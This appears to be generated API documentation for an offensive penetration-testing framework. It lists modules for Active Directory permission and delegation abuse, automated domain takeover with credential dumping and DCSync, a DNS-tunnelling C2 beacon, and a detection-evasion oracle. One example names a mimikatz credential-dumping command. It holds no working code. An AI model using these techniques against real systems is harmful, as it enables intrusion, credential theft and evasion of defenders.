Analyzes BloodHound or LDAP ACL data to find exploitable permission
paths and generates exploitation plans for each abuse primitive.

Attributes:
    domain: Target domain FQDN.
    domain_sid: Domain SID.
    acl_data: Raw ACL data from BloodHound or LDAP.
    targets: Discovered exploitable ACL targets.
    attack_chains: Generated attack chains.*

**Methods:**
- `__init__` (line 136) `def __init__(self, domain, domain_sid, acl_data)`
- `parse_bloodhound_acls` (line 143) `def parse_bloodhound_acls(self, edges)` - *Parse BloodHound edge data to extract exploitable ACLs.

Args:
    edges: List of BloodHound edge dicts with ACL data.

Returns:
    List of ACLTarget objects.*
- `parse_raw_aces` (line 182) `def parse_raw_aces(self, raw_nthashes)` - *Parse raw ACE data from ntSecurityDescriptor parsing.

Args:
    raw_nthashes: List of dicts with object DN and ACE list.

Returns:
    List of ACLTarget objects.*
- `compute_attack_chains` (line 224) `def compute_attack_chains(self)` - *Generate exploitation plans for all discovered ACL targets.

Returns:
    List of attack chain dicts with commands and prerequisites.*
- `adminsdholder_abuse_plan` (line 291) `def adminsdholder_abuse_plan(self, target_sid)` - *Generate an AdminSDHolder abuse plan.

AdminSDHolder's ACL is propagated every 60 minutes to all protected
groups. Modifying its DACL is a stealthy persistence technique.

Args:
    target_sid: SID of the attacker-controlled account.

Returns:
    Dict with abuse instructions and commands.*
- `dcsync_rights_assignment_plan` (line 318) `def dcsync_rights_assignment_plan(self, target_sid, domain_dn)` - *Generate a DCSync rights assignment plan.

Grants DS-Replication-Get-Changes and DS-Replication-Get-Changes-All
extended rights to an attacker-controlled account on the domain root.

Args:
    target_sid: SID to grant DCSync rights to.
    domain_dn: Domain distinguished name.

Returns:
    Dict with DCSync assignment commands.*
- `owner_takeover_plan` (line 348) `def owner_takeover_plan(self, target_dn, attacker_sid)` - *Generate an ownership takeover plan.

Changes the owner of an AD object to the attacker, then grants
WriteDacl to modify permissions.

Args:
    target_dn: Distinguished name of the target object.
    attacker_sid: Attacker's SID.

Returns:
    Dict with owner takeover instructions.*
- `_is_dangerous_ace` (line 379) `def _is_dangerous_ace(ace)`
- `_calculate_severity` (line 384) `def _calculate_severity(target)`
- `_guess_object_type` (line 397) `def _guess_object_type(dn)`
- `_extract_cn` (line 414) `def _extract_cn(dn)`
- `summary` (line 418) `def summary(self)` - *Return a summary of all DACL/SACL abuse findings.

Returns:
    Dict with target counts by severity, technique counts, and attack chains.*

#### `dashboard_bp.py`
**Path:** `modules/dashboard_bp.py`
**File Doc:** *modules/dashboard_bp.py ======================== Real-time SOC dashboard as a Flask Blueprint.  Registration (one line in lazyc2.py after app creation): from modules.dashboard_bp import dashboard_bp app.register_blueprint(dashboard_bp)  Then visit: http://localhost:4444/dashboard/*

**Functions:**
- `_require_login` (line 30) `def _require_login()` - *Reject unauthenticated access to every dashboard route.*
- `_read_jsonl` (line 71) `def _read_jsonl(path, last_n)` - *Read a .jsonl file, optionally returning only the last N lines.*
- `_read_json` (line 93) `def _read_json(path)` - *Read a JSON file; return empty dict on any error.*
- `_count_lines` (line 103) `def _count_lines(path)` - *Count non-empty lines in a text file.*
- `_aggregate_data` (line 113) `def _aggregate_data()` - *Build the full dashboard data snapshot from session files.
Returns a structured dict consumed by both the HTML page (via JS fetch)
and the /dashboard/api/data endpoint.*
- `dashboard_index` (line 778) `def dashboard_index()` - *Render the main SOC dashboard HTML page.*
- `dashboard_api_data` (line 784) `def dashboard_api_data()` - *JSON snapshot of all dashboard data.

Reads directly from sessions/ files so it can be used even without
the full lazyc2.py runtime context (e.g. during testing).*
- `_read_loot_lines` (line 800) `def _read_loot_lines(pattern)` - *Collect non-comment lines from every sessions file matching ``pattern``.*
- `_read_loot` (line 817) `def _read_loot()` - *Aggregate credentials, hashes and loot files from ``sessions/``.*
- `dashboard_loot` (line 902) `def dashboard_loot()` - *Render the loot browser: captured credentials, hashes and files.*
- `_normalize_ts` (line 913) `def _normalize_ts(raw)` - *Return ``(sortable_iso, display)`` for epoch floats or CSV timestamps.*
- `_read_timeline` (line 934) `def _read_timeline()` - *Merge command log and events into one newest-first timeline.*
- `dashboard_timeline` (line 1017) `def dashboard_timeline()` - *Render the campaign timeline: commands and events, newest first.*

#### `dashboard_engine.py`
**Path:** `modules/dashboard_engine.py`
**File Doc:** *Live Network Map Dashboard for LazyOwn.  Provides a curses-based real-time visualization of: - Discovered hosts with service status - Kill-chain phase progression per host - Active exploit recommendations - Pivot chain topology - Beacon health indicators  Consumes data from WorldModel, ExploitRecommender, AutoPivotEngine, and EvasionEngine.*

**Classes:**
- `DashboardNode` (line 99) `class DashboardNode`
- `DashboardEdge` (line 111) `class DashboardEdge`
- `DashboardEngine` (line 118) `class DashboardEngine` - *Builds a live dashboard data model from campaign state.

Does NOT depend on curses directly — produces structured data suitable
for text-based rendering, JSON export, or TUI consumption.

Attributes:
    world_model: Optional reference to the campaign WorldModel.
    sessions_dir: Path to the sessions directory.*

**Functions:**
- `_parse_nmap_xml_services` (line 39) `def _parse_nmap_xml_services(sessions_dir)` - *Parse all scan_*.nmap.xml files and return {ip: [svc_dicts]}.*

**Methods:**
- `__init__` (line 139) `def __init__(self, world_model)`
- `set_world_model` (line 148) `def set_world_model(self, model)`
- `set_exploit_recommender` (line 151) `def set_exploit_recommender(self, recommender)`
- `set_auto_pivot` (line 154) `def set_auto_pivot(self, pivot)`
- `set_evasion_engine` (line 157) `def set_evasion_engine(self, evasion)`
- `build_snapshot` (line 160) `def build_snapshot(self)` - *Build a complete dashboard snapshot from all data sources.

Returns:
    Dict with keys: nodes, edges, stats, recommendations, pivots, beacons.*
- `render_text_map` (line 276) `def render_text_map(self, snapshot)` - *Render a text-based network map from a dashboard snapshot.

Args:
    snapshot: Dashboard snapshot dict from build_snapshot().
              Builds a fresh snapshot if None.

Returns:
    A multi-line ASCII-art network topology string.*
- `render_ascii_topology` (line 358) `def render_ascii_topology(self, snapshot)` - *Render an ASCII-art topology tree from a snapshot.

Args:
    snapshot: Dashboard snapshot dict from build_snapshot().

Returns:
    Multi-line ASCII topology string.*
- `_phase_icon` (line 398) `def _phase_icon(phase)`
- `export_json` (line 408) `def export_json(self, snapshot)` - *Export dashboard snapshot as JSON string.

Args:
    snapshot: Dashboard snapshot dict from build_snapshot().

Returns:
    JSON string.*
- `persist_snapshot` (line 421) `def persist_snapshot(self, snapshot)` - *Persist dashboard snapshot to sessions/dashboard_snapshot.json.

Args:
    snapshot: Dashboard snapshot dict from build_snapshot().

Returns:
    Path to the written file.*
- `format_for_cli` (line 438) `def format_for_cli(self, snapshot)` - *Compact single-line status for CLI prompt integration.

Args:
    snapshot: Dashboard snapshot dict from build_snapshot().

Returns:
    Short status string: "[H:3 S:12 R:5 P:2 B:1]"*

#### `db.py`
**Path:** `modules/db.py`
**File Doc:** *SQLite database layer for LazyOwn -- hosts, services, vulns, loot, creds, notes.  Mirrors the Metasploit ``db_*`` workflow with workspace isolation, nmap XML import, and queryable tables. Uses SQLite (zero deps) with a ``sessions/db/`` storage directory under the active session dir.*

**Classes:**
- `LazyOwnDB` (line 147) `class LazyOwnDB` - *SQLite database for LazyOwn campaign state.

Thread-safe per-connection (SQLite serialises writes). Not safe to
share a single :class:`LazyOwnDB` instance across threads without
external locking; use one connection per thread instead.

Args:
    db_path: Path to the SQLite file. Defaults to
        ``sessions/db/lazyown.db``.*

**Functions:**
- `get_db` (line 821) `def get_db(db_path)` - *Get or create a :class:`LazyOwnDB` instance.

This is a convenience factory. The caller is responsible for calling
:meth:`LazyOwnDB.close` when done.

Args:
    db_path: Optional path to the SQLite file.

Returns:
    A new :class:`LazyOwnDB` instance.*

**Methods:**
- `__init__` (line 159) `def __init__(self, db_path)`
- `_get_conn` (line 171) `def _get_conn(self)` - *Return a per-thread SQLite connection, creating it on first access.*
- `db_path` (line 182) `def db_path(self)` - *Path to the SQLite database file.*
- `_init_schema` (line 186) `def _init_schema(self)`
- `_current_version` (line 192) `def _current_version(self)`
- `_run_migrations` (line 197) `def _run_migrations(self)` - *Apply any pending incremental migrations.

Returns the list of version numbers that were applied during
this call (empty when the database is already up to date).*
- `migration_status` (line 222) `def migration_status(self)` - *Return the current and latest migration versions.

Returns:
    Dict with keys ``current`` (int), ``latest`` (int), and
    ``pending`` (list[int] of versions not yet applied).*
- `_cursor` (line 235) `def _cursor(self)`
- `_maybe_encrypt` (line 251) `def _maybe_encrypt(self, value)` - *Encrypt a credential value if the crypto module is available.

Raises:
    RuntimeError: If the crypto module is unavailable and the value
        is non-empty, to prevent silent plaintext storage.*
- `_maybe_decrypt` (line 273) `def _maybe_decrypt(self, value)` - *Decrypt a credential value, falling back to plaintext on error.*
- `workspace_create` (line 292) `def workspace_create(self, name, description)` - *Create a new workspace.

Returns the workspace ID, or -1 if the name already exists.*
- `workspace_list` (line 307) `def workspace_list(self)` - *Return all workspaces as dicts.*
- `workspace_get` (line 313) `def workspace_get(self, name)` - *Get a workspace by name, or None.*
- `default_workspace` (line 320) `def default_workspace(self, name)` - *Return the id of the named workspace, creating it when absent.

Args:
    name: Workspace name. Defaults to ``"default"``.
Returns:
    The workspace row id.*
- `workspace_delete` (line 333) `def workspace_delete(self, name)` - *Delete a workspace and all its data. Returns True if deleted.*
- `host_add` (line 357) `def host_add(self, workspace_id, address, mac, hostname, os, state)` - *Add or update a host. Returns the host ID.*
- `host_delete` (line 390) `def host_delete(self, host_id)` - *Delete a host and its related data.*
- `host_list` (line 401) `def host_list(self, workspace_id)` - *List all hosts in a workspace.*
- `host_find` (line 410) `def host_find(self, workspace_id, query)` - *Search hosts by address, hostname, or os.*
- `service_add` (line 427) `def service_add(self, host_id, port, protocol, state, name, product, version)` - *Add a service to a host.*
- `service_list` (line 447) `def service_list(self, host_id)` - *List all services on a host.*
- `vuln_add` (line 460) `def vuln_add(self, host_id, name, severity, description, refs)` - *Add a vulnerability to a host.*
- `vuln_get` (line 478) `def vuln_get(self, vuln_id)` - *Return one vuln row with its host address, or None.*
- `vuln_update` (line 490) `def vuln_update(self, vuln_id, refs, severity, description)` - *Update mutable vuln fields; returns True when a row changed.

Args:
    vuln_id: Vuln row id.
    refs: Replacement refs string (status/evidence markers).
    severity: Replacement severity label.
    description: Replacement description text.

Returns:
    True when the row existed and was updated.*
- `vuln_list` (line 528) `def vuln_list(self, workspace_id, severity)` - *List vulns in workspace, optionally filtered by severity.*
- `cred_add` (line 557) `def cred_add(self, host_id, username, password, realm, cred_type, origin)` - *Add a credential (password encrypted at rest).*
- `cred_list` (line 577) `def cred_list(self, workspace_id)` - *List all creds in workspace (passwords decrypted).*
- `loot_add` (line 596) `def loot_add(self, workspace_id, name, loot_type, path, notes, host_id)` - *Add a loot entry.*
- `loot_list` (line 615) `def loot_list(self, workspace_id)` - *List all loot in workspace.*
- `note_add` (line 631) `def note_add(self, workspace_id, data, note_type, host_id)` - *Add a note.*
- `note_list` (line 648) `def note_list(self, workspace_id)` - *List all notes in workspace.*
- `import_nmap_xml` (line 664) `def import_nmap_xml(self, workspace_id, xml_path)` - *Import an Nmap XML file into the database.

Returns a dict with counts of imported hosts, services, and os
fingerprints.*
- `export_csv` (line 740) `def export_csv(self, table, workspace_id)` - *Export a table to CSV string.

Args:
    table: One of ``hosts``, ``services``, ``vulns``, ``creds``,
        ``loot``, ``notes``.
    workspace_id: Filter by workspace (required for workspace-
        scoped tables). If None, exports all data.

Returns:
    CSV-formatted string with header row.

Raises:
    ValueError: If table is not in the allowed set.*
- `status` (line 775) `def status(self, workspace_id)` - *Return counts for every entity type in a workspace.*
- `close` (line 804) `def close(self)` - *Close the database connection for the current thread.

Idempotent — safe to call multiple times.*

#### `delegation_attacks.py`
**Path:** `modules/delegation_attacks.py`
**File Doc:** *Active Directory delegation enumeration and abuse.  Enumerates and exploits Kerberos delegation configurations: unconstrained delegation, constrained delegation (with/without protocol transition), and resource-based constrained delegation (RBCD).  Each delegation type allows attackers to impersonate users to services, escalating from standard domain user to domain admin through misconfigured delegation trusts.*

**Classes:**
- `DelegationTarget` (line 32) `class DelegationTarget` - *A delegation-enabled account or computer.

Attributes:
    sam_account_name: sAMAccountName.
    distinguished_name: DN in AD.
    object_sid: Security identifier.
    uac: userAccountControl flags integer.
    service_principal_names: List of SPNs.
    msds_allowed_to_delegate_to: Constrained delegation targets.
    msds_allowed_to_act_on_behalf_of_other_identity: RBCD SID.
    is_unconstrained: Has TRUSTED_FOR_DELEGATION flag.
    is_constrained: Has msDS-AllowedToDelegateTo entries.
    is_rbcd_target: Has msDS-AllowedToActOnBehalfOfOtherIdentity set.
    protocol_transition: Has TRUSTED_TO_AUTH_FOR_DELEGATION.*
- `DelegationAttackPath` (line 63) `class DelegationAttackPath` - *A delegation-based attack path from source to target.

Attributes:
    source_account: Account that can delegate.
    target_account: Account being delegated to.
    delegation_type: unconstrained, constrained, or rbcd.
    requires_compromise: What needs to be compromised first.
    severity: critical, high, medium, low.
    attack_steps: Ordered list of attack step descriptions.
    exploitation_commands: Shell commands to execute the attack.*
- `DelegationEnumerator` (line 85) `class DelegationEnumerator` - *Enumerate Kerberos delegation configurations from Active Directory.

Parses LDAP output, BloodHound data, or raw AD attributes to identify
unconstrained delegation, constrained delegation, and RBCD targets.

Attributes:
    domain: Target domain FQDN.
    raw_ldap_output: Raw LDAP search results text.
    targets: Discovered delegation targets.
    attack_paths: Computed attack paths.*

**Methods:**
- `__init__` (line 98) `def __init__(self, domain, raw_ldap_output)`
- `enumerate_from_uac_flags` (line 104) `def enumerate_from_uac_flags(self, accounts)` - *Enumerate delegation targets from parsed account data.

Args:
    accounts: List of dicts with samaccountname, useraccountcontrol,
        serviceprincipalname, msds-allowedtodelegateto.

Returns:
    List of DelegationTarget objects.*
- `parse_bloodhound_output` (line 151) `def parse_bloodhound_output(self, bloodhound_json)` - *Parse BloodHound JSON output for delegation data.

Args:
    bloodhound_json: List of BloodHound node/edge dicts.

Returns:
    List of DelegationTarget objects.*
- `find_unconstrained_targets` (line 181) `def find_unconstrained_targets(self)` - *Return all accounts with unconstrained delegation enabled.

Returns:
    Filtered list of unconstrained delegation targets.*
- `find_constrained_targets` (line 189) `def find_constrained_targets(self)` - *Return all accounts with constrained delegation configured.

Returns:
    Filtered list of constrained delegation targets.*
- `find_rbcd_targets` (line 197) `def find_rbcd_targets(self)` - *Return all accounts with RBCD configured.

Returns:
    Filtered list of RBCD targets.*
- `find_dc_targets` (line 205) `def find_dc_targets(self)` - *Return domain controllers with delegation configured.

Returns:
    List of DC delegation targets.*
- `compute_attack_paths` (line 215) `def compute_attack_paths(self)` - *Compute delegation-based attack paths.

Analyzes discovered targets to build attack chains:
Unconstrained: Compromise DC/sensitive server -> capture TGTs from privileged users.
Constrained: Compromise account with delegation -> impersonate to target services.
RBCD: Create machine account -> configure RBCD -> impersonate arbitrary user.

Returns:
    Ordered list of DelegationAttackPath by severity.*
- `summary` (line 296) `def summary(self)` - *Return a summary of all delegation findings.

Returns:
    Dict with counts, targets list, and computed attack paths.*

#### `detailed_search.py`
**Path:** `modules/detailed_search.py`
**File Doc:** *main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: webscrapper gtofbins  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝*

**Functions:**
- `obtener_informacion` (line 40) `def obtener_informacion(url)`

#### `detection_feed.py`
**Path:** `modules/detection_feed.py`
**File Doc:** *Dynamic detection feed for the Detection Oracle.  The :class:`DetectionOracle` in ``modules/detection_oracle.py`` uses 17 static Sigma-lite rules with fixed ``base_probability`` values.  In a real engagement, EDR vendors and SIEM rulesets evolve constantly.  This module provides a feed mechanism that can:  1. Download updated Sigma rules from SigmaHQ (GitHub) and convert them to :class:`SigmaRule` objects. 2. Adjust ``base_probability`` values based on historical campaign feedback (false positives lower the probability; missed detections raise it). 3. Cache downloaded rules locally so the oracle works offline after the first fetch.  Design (SOLID) -------------- - Single Responsibility : fetch + adjust detection rules only. - Open/Closed           : new feed sources added as entries in ``_FEED_SOURCES``. - Dependency Inversion  : :class:`DetectionOracle` depends on the ``DetectionFeed`` interface, not a specific source.*

**Classes:**
- `FeedResult` (line 64) `class FeedResult` - *Result of a feed update operation.*
- `DetectionFeed` (line 73) `class DetectionFeed` - *Fetches and adjusts detection rules from external sources.

Sources
-------
- SigmaHQ: Raw Sigma YAML rules from the SigmaHQ GitHub repository.
- Campaign feedback: Adjusts probabilities based on past detection
  outcomes stored in ``sessions/detection_feedback.jsonl``.*

**Functions:**
- `get_feed` (line 326) `def get_feed()` - *Return a module-level :class:`DetectionFeed` singleton.*

**Methods:**
- `__init__` (line 83) `def __init__(self, cache_dir, sources)`
- `update_rules` (line 92) `def update_rules(self, source)` - *Download and parse rules from the given source.

Args:
    source: Source name (key in ``_FEED_SOURCES``).

Returns:
    List of new :class:`SigmaRule` objects parsed from the feed.*
- `_parse_sigma_feed` (line 125) `def _parse_sigma_feed(self, text)` - *Parse raw Sigma YAML text into SigmaRule objects.

Sigma rules are YAML files with ``title``, ``logsource``,
``detection``, and ``tags`` fields.  We extract keywords from
the detection patterns and map the log source / tags to our
category system.*
- `_extract_log_source` (line 172) `def _extract_log_source(self, doc)`
- `_extract_mitre` (line 180) `def _extract_mitre(self, doc)`
- `_extract_keywords` (line 189) `def _extract_keywords(self, doc)`
- `_extract_categories` (line 206) `def _extract_categories(self, doc)`
- `_cache_rules` (line 219) `def _cache_rules(self, rules, source)` - *Cache downloaded rules to disk for offline use.*
- `load_cached_rules` (line 246) `def load_cached_rules(self, source)` - *Load previously cached rules from disk.*
- `adjust_from_feedback` (line 270) `def adjust_from_feedback(self, feedback_file)` - *Adjust rule probabilities based on historical detection feedback.

Reads ``sessions/detection_feedback.jsonl`` (or a custom path) where
each line is::

    {"rule_id": "LAZ-001", "detected": true, "actual": false}

- ``detected=true, actual=false`` → false positive → lower probability
- ``detected=false, actual=true``  → missed detection → raise probability

Args:
    feedback_file: Optional path to a feedback JSONL file.

Returns:
    Number of rules whose probability was adjusted.*

#### `detection_oracle.py`
**Path:** `modules/detection_oracle.py`
**File Doc:** *modules/detection_oracle.py ============================ Blue Team Mirror — predicts detection probability for a given action before it is executed by the autonomous loop or a hive-mind drone.  Maps LazyOwn action categories and specific command patterns to sigma-lite detection rules, predicted log sources, and an aggregated detection probability score in [0.0, 1.0].  Design principles ----------------- - Single Responsibility : detection prediction only; no command execution - Open/Closed           : new sigma rules added via _SIGMA_RULES list only - Liskov Substitution   : IDetectionOracle defines the contract - Interface Segregation : IDetectionOracle exposes only assess() and probability() - Dependency Inversion  : callers depend on IDetectionOracle, not DetectionOracle  Usage ----- from modules.detection_oracle import get_oracle  oracle = get_oracle() assessment = oracle.assess("mimikatz", "sekurlsa::logonpasswords", "credential") if assessment.is_high_risk: print(f"High detection risk ({assessment.probability:.0%}): " f"{assessment.sigma_names}") print(assessment.recommendation)*

**Classes:**
- `SigmaRule` (line 50) `class SigmaRule` - *Lightweight representation of a Sigma-compatible detection rule.*
- `DetectionAssessment` (line 63) `class DetectionAssessment` - *Result returned by DetectionOracle.assess().*
- `IDetectionOracle` (line 90) `class IDetectionOracle(ABC)` - *Read-only contract for detection probability assessment.*
- `DetectionOracle` (line 317) `class DetectionOracle(IDetectionOracle)` - *Maps a (command, args, action_category) triple to a detection probability.

Matching algorithm
------------------
1. Scan all sigma rules for keyword hits in the lowercased command+args.
2. Include rules whose category_tags overlap with action_category.
3. Boost matched rule probabilities by 10% when both keyword AND category hit.
4. Aggregate using the OR-probability formula:
       P = 1 - prod(1 - effective_p_i)
5. Clamp result to [0.0, 1.0].
6. Fall back to _CATEGORY_BASE_PROBABILITY when no rules matched.*

**Functions:**
- `get_oracle` (line 478) `def get_oracle()` - *Return (or create) the module-level singleton DetectionOracle.*

**Methods:**
- `is_high_risk` (line 75) `def is_high_risk(self)` - *Return True when detection probability is 70% or higher.*
- `is_critical_risk` (line 80) `def is_critical_risk(self)` - *Return True when detection probability is 90% or higher.*
- `assess` (line 94) `def assess(self, command, args, action_category)` - *Return a full DetectionAssessment for the given action.*
- `probability` (line 103) `def probability(self, command, args, action_category)` - *Return only the probability score in [0.0, 1.0].*
- `__init__` (line 332) `def __init__(self, rules, feed)`
- `refresh` (line 336) `def refresh(self)` - *Update rules from the detection feed (if available).

Downloads new Sigma rules from the feed source, caches them locally,
and merges them with the existing static rules.  Also adjusts
probabilities based on historical detection feedback.

Returns:
    Number of new rules added to the oracle.*
- `assess` (line 371) `def assess(self, command, args, action_category)`
- `probability` (line 392) `def probability(self, command, args, action_category)`
- `_match_rules` (line 397) `def _match_rules(self, text, action_category)` - *A rule matches when EITHER condition holds:
- A keyword from the rule appears in the command text (direct evidence), OR
- The action category matches AND at least one keyword was found globally.

Category-only matches (no keyword in command text) are NOT included
because that would assign high detection probability to low-noise commands
that merely belong to a broadly-defined category (e.g. 'dig' as recon).
The category tag is used exclusively to boost the probability of already-
matched rules via _effective_probability().*
- `_effective_probability` (line 417) `def _effective_probability(rule, action_category)` - *Return the effective probability for a matched rule.
Applies a 10% boost when the action category also matches the rule's
category_tags, reflecting higher confidence when both signals align.*
- `_aggregate_probability` (line 427) `def _aggregate_probability(self, matched, action_category)` - *Aggregate per-rule probabilities using the OR-probability formula so
that each additional rule increases (rather than replaces) the total risk.*
- `_build_recommendation` (line 444) `def _build_recommendation(probability, matched, action_category)`

#### `dns_beacon.py`
**Path:** `modules/dns_beacon.py`
**File Doc:** *DNS Beacon — covert C2 channel via DNS tunneling.  Supports A/AAAA/TXT record tunneling. The beacon encodes commands and results as DNS subdomain queries. The server reconstructs data from DNS query logs.  Transport modes: A       — Commands in A-record response IP addresses. TXT     — Commands in TXT record responses. AAAA    — Commands in AAAA-record responses.*

**Classes:**
- `DNSBeacon` (line 23) `class DNSBeacon` - *DNS tunneling beacon client.

Encodes heartbeats and command output as subdomain queries.
Decodes DNS response data as commands.

Args:
    domain: DNS domain controlled by the operator.
    dns_server: Resolver to use (default: system resolver).
    sleep_seconds: Interval between check-ins.
    jitter_percent: Random jitter percentage applied to sleep.
    dns_type: DNS record type (A, TXT, AAAA).
    encode_method: Encoding for data (base32, base64, hex).*
- `DNSC2Server` (line 199) `class DNSC2Server` - *DNS C2 server for receiving beacon data from DNS query logs.

Monitors DNS query logs and reconstructs beacon traffic.
Supports log sources: file, tcpdump pipe, stdin.

Args:
    domain: DNS domain controlled by the operator.
    log_source: Path to DNS query log file, or 'tcpdump' for live capture.
    interface: Network interface for tcpdump capture mode.*

**Methods:**
- `__init__` (line 38) `def __init__(self, domain, dns_server, sleep_seconds, jitter_percent, dns_type, encode_method)`
- `_ensure_dnspython` (line 57) `def _ensure_dnspython(self)`
- `_encode` (line 63) `def _encode(self, data)`
- `_decode` (line 70) `def _decode(self, data)`
- `_jittered_sleep` (line 78) `def _jittered_sleep(self)`
- `_dns_query` (line 84) `def _dns_query(self, name, qtype)`
- `_build_query` (line 96) `def _build_query(self, msg_type, payload)`
- `check_in` (line 105) `def check_in(self)` - *Send heartbeat and check for pending commands.

Returns:
    Command string if one is queued, or None.*
- `send_result` (line 135) `def send_result(self, command, output, exit_code)` - *Send command output via DNS TXT queries.

Args:
    command: The executed command.
    output: Command stdout/stderr.
    exit_code: Process exit code.*
- `run` (line 171) `def run(self)` - *Main beacon loop: check-in -> execute command -> send result -> sleep.*
- `__init__` (line 211) `def __init__(self, domain, log_source, interface)`
- `register_beacon` (line 225) `def register_beacon(self, beacon_id, hostname)` - *Register a new DNS beacon.*
- `list_beacons` (line 235) `def list_beacons(self)` - *List all registered DNS beacons.*
- `send_task` (line 239) `def send_task(self, beacon_id, command)` - *Queue a command for a DNS beacon.

Args:
    beacon_id: Beacon identifier.
    command: Shell command to execute.*
- `process_query_log` (line 248) `def process_query_log(self, line)` - *Process a single DNS query log line and extract beacon data.

Supports standard syslog and BIND query log formats.

Args:
    line: Raw DNS query log line.*
- `_handle_result` (line 294) `def _handle_result(self, labels, query)`
- `get_results` (line 327) `def get_results(self, beacon_id)` - *Get received results for a beacon.

Args:
    beacon_id: Beacon identifier.

Returns:
    List of result dictionaries.*

#### `domain_dominance.py`
**Path:** `modules/domain_dominance.py`
**File Doc:** *Domain Dominance Engine — automated Active Directory takeover.  Provides a ``DomainDominance`` engine that orchestrates the full AD attack kill-chain in one command: enumeration, credential extraction, lateral movement, privilege escalation, and persistence. Integrates with the existing BloodHound, impacket, and CrackMapExec tool chains.  Architecture: PhaseNavigator -> EnumStage -> CredStage -> LateralStage -> PrivEscStage -> PersistStage | +-- LLM Advisor (optional, Groq-powered for strategy decisions)  Security: All credentials are written to ``sessions/credentials_*.txt`` following the existing LazyOwn convention. No credentials are logged to stdout.  Usage: from modules.domain_dominance import DomainDominance dd = DomainDominance() results = dd.dominate(domain="corp.local", dc_ip="10.10.11.5")*

**Classes:**
- `DomainInfo` (line 49) `class DomainInfo` - *Structured domain information collected during enumeration.*
- `CredentialStash` (line 65) `class CredentialStash` - *Credentials collected during the engagement.*
- `DominanceResult` (line 75) `class DominanceResult` - *Outcome of a domain dominance operation.*
- `DomainDominance` (line 89) `class DomainDominance` - *Orchestrate full domain takeover from initial foothold to persistence.

Public methods:
    dominate(domain, dc_ip) -> DominanceResult
    enumerate_domain(domain, dc_ip) -> DomainInfo
    extract_credentials(domain_info) -> CredentialStash
    escalate(domain_info, stash) -> list[str]
    persist(domain_info) -> list[str]*

**Methods:**
- `__init__` (line 103) `def __init__(self)`
- `get_instance` (line 110) `def get_instance(cls)`
- `dominate` (line 121) `def dominate(self, domain, dc_ip, username, password, ntlm_hash)` - *Execute the full AD dominance kill-chain.

Args:
    domain: FQDN of the target domain.
    dc_ip: Domain Controller IP (optional, will be discovered).
    username: Known username for initial auth.
    password: Known password for initial auth.
    ntlm_hash: NTLM hash for pass-the-hash.

Returns:
    DominanceResult with full outcome.*
- `enumerate_domain` (line 194) `def enumerate_domain(self, domain, dc_ip)` - *Enumerate the target domain topology.

Args:
    domain: Target domain FQDN.
    dc_ip: Known DC IP or empty for discovery.

Returns:
    DomainInfo with enumeration results.*
- `extract_credentials` (line 227) `def extract_credentials(self, domain_info, known_creds)` - *Extract credentials using the discovered domain topology.

Args:
    domain_info: Discovered DomainInfo.
    known_creds: Pre-existing credentials to try.

Returns:
    CredentialStash with extracted credentials.*
- `escalate` (line 260) `def escalate(self, domain_info, stash)` - *Escalate privileges and move laterally through the domain.

Args:
    domain_info: Domain topology.
    stash: Collected credentials.

Returns:
    List of session identifiers obtained.*
- `persist` (line 314) `def persist(self, domain_info)` - *Establish persistence mechanisms across the domain.

Args:
    domain_info: Target domain topology.

Returns:
    List of persistence mechanism identifiers.*
- `_discover_dc` (line 340) `def _discover_dc(self, domain, dns_servers)` - *Discover the domain controller IP.

Args:
    domain: Target domain.
    dns_servers: DNS servers to query.

Returns:
    DC IP or empty string.*
- `_find_dcs` (line 366) `def _find_dcs(self, domain, dc_ip)` - *Find all domain controllers.

Args:
    domain: Target domain.
    dc_ip: Known DC IP.

Returns:
    List of DC IPs/hostnames.*
- `_find_domain_admins` (line 392) `def _find_domain_admins(self, domain, dc_ip)` - *Enumerate Domain Admins group.

Args:
    domain: Target domain.
    dc_ip: DC IP.

Returns:
    List of domain admin usernames.*
- `_enumerate_users` (line 426) `def _enumerate_users(self, dc_ip)` - *Enumerate domain users.

Args:
    dc_ip: DC IP.

Returns:
    List of usernames.*
- `_enumerate_computers` (line 469) `def _enumerate_computers(self, dc_ip)` - *Enumerate domain computers.

Args:
    dc_ip: DC IP.

Returns:
    List of computer names.*
- `_enumerate_groups` (line 495) `def _enumerate_groups(self, dc_ip)` - *Enumerate domain groups.

Args:
    dc_ip: DC IP.

Returns:
    Dict mapping group names to member lists.*
- `_enumerate_spns` (line 516) `def _enumerate_spns(self, dc_ip)` - *Enumerate service principal names.

Args:
    dc_ip: DC IP.

Returns:
    List of SPNs.*
- `_enumerate_trusts` (line 546) `def _enumerate_trusts(self, domain, dc_ip)` - *Enumerate domain trusts.

Args:
    domain: Target domain.
    dc_ip: DC IP.

Returns:
    List of trust relationship dicts.*
- `_asrep_roast` (line 575) `def _asrep_roast(self, domain_info)` - *Perform AS-REP roasting.

Args:
    domain_info: Domain topology.

Returns:
    List of cracked hashes.*
- `_kerberoast` (line 625) `def _kerberoast(self, domain_info)` - *Perform Kerberoasting.

Args:
    domain_info: Domain topology.

Returns:
    List of cracked hashes.*
- `_psexec_session` (line 666) `def _psexec_session(self, target, domain, user, password)` - *Create a PsExec session.

Args:
    target: Target IP/hostname.
    domain: Domain name.
    user: Username.
    password: Password.

Returns:
    Session ID string.*
- `_wmiexec_session` (line 697) `def _wmiexec_session(self, target, domain, user, password)` - *Create a WMIExec session.

Args:
    target: Target IP/hostname.
    domain: Domain name.
    user: Username.
    password: Password.

Returns:
    Session ID string.*
- `_pth_session` (line 728) `def _pth_session(self, target, domain, user, ntlm_hash)` - *Create a Pass-the-Hash session.

Args:
    target: Target IP/hostname.
    domain: Domain name.
    user: Username.
    ntlm_hash: NTLM hash.

Returns:
    Session ID string.*
- `_attempt_dcsync` (line 768) `def _attempt_dcsync(self, dc_ip)` - *Attempt DCSync to extract all domain hashes.

Args:
    dc_ip: DC IP.

